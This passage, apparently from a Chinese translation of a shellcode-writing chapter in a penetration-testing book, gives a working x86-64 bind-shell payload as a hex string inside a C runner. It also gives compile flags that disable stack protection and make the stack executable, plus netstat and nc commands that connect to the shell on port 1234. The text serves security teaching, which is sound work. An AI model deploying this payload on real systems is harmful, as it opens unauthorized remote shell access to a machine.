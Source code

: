 上述命令的输出显示在以下截图中：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00211.jpeg)

让我们将其注入到我们的 C 代码中：

```
#include<stdio.h>
#include<string.h>

unsigned char code[] =

"\x48\x31\xc0\x48\x83\xc0\x29\x48\x31\xff\x48\x83\xc7\x02\x48\x31\xf6\x48\xff\xc6\x48\x31\xd2\x0f\x05\x48\x89\xc7\x48\x31\xc0\x50\x66\x68\x04\xd2\x66\x6a\x02\x48\x89\xe6\x48\x31\xd2\x48\x83\xc2\x10\x48\x31\xc0\x48\x83\xc0\x31\x0f\x05\x48\x31\xc0\x48\x83\xc0\x32\x48\x31\xf6\x48\xff\xc6\x0f\x05\x48\x31\xc0\x48\x83\xc0\x2b\x48\x31\xf6\x48\x31\xd2\x0f\x05\x48\x89\xc3\x48\x89\xdf\x48\x31\xc0\x48\x83\xc0\x21\x48\x31\xf6\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\xff\xc6\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\xff\xc6\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";

int main()
 {
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

让我们编译并运行它：

```
$ gcc -fno-stack-protector -z execstack bind-shell.c
$ ./a.out
```

前面命令的输出显示在以下截图中：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00212.gif)

现在我们的 shellcode 已经在工作并等待；让我们确认一下：

```
$ netstat -ntlp
```

前面命令的输出显示在以下截图中：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00213.jpeg)

它现在在端口 `1234` 上监听；现在，从另一个终端窗口，启动 `nc`：

```
$ nc localhost 1234
```

前面命令的输出显示在以下截图中：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00214.gif)
